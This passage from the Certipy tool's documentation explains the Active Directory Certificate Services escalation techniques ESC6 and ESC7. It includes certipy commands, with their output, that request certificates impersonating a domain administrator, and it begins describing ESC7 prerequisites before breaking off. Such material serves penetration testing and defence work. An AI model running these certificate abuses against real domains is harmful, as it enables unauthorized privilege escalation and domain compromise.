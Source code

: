 The attack is the same as ESC1, except that you can choose any certificate template that permits client authentication. After the May 2022 security updates, new certificates will have a securiy extension that embeds the requester's `objectSid` property. For ESC1, this property will be reflected from the SAN specified, but with ESC6, this property reflects the requester's `objectSid`, and not from the SAN. Notice that the objectSid changes depending on the requester in the following example.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -template User -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 2
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-2496215469-2694655311-2823030825-1103'
[*] Saved certificate and private key to 'administrator.pfx'

$ certipy req -username administrator@corp.local -password Passw0rd! -ca corp-DC-CA -template User -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 3
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-2496215469-2694655311-2823030825-500'
[*] Saved certificate and private key to 'administrator.pfx'
```

This would not happen if the certificate was vulnerable to ESC1. As such, to abuse ESC6, the environment must be vulnerable to ESC10 (Weak Certificate Mappings), where the SAN is preferred over the new security extension. 

#### ESC7

ESC7 is when a user has the `Manage CA` or `Manage Certificates` access right on a CA. There are no public techniques that can abuse the `Manage Certificates` access right for domain privilege escalation, but it can be used it to issue or deny pending certificate requests.

The ["Certified Pre-Owned"](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) whitepaper mentions that this access right can be used to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag to perform the ESC6 attack, but this will not have any effect until the CA service (`CertSvc`) is restarted. When a user has the `Manage CA` access right, the user is also allowed to restart the service. However, it does not mean that the user can restart the service remotely. Furthermore, ESC6 might not work out of the box in most patched environments due to the May 2022 security updates.

Instead, I've found another technique that doesn't require any service restarts or configuration changes.

**Prerequisites**

In order for this technique to work, the user must also have the `Manage Certificates` access right, and the certificate template `SubCA` must be enabled. With the `Manage CA` access right, we can fulfill these prerequisites.
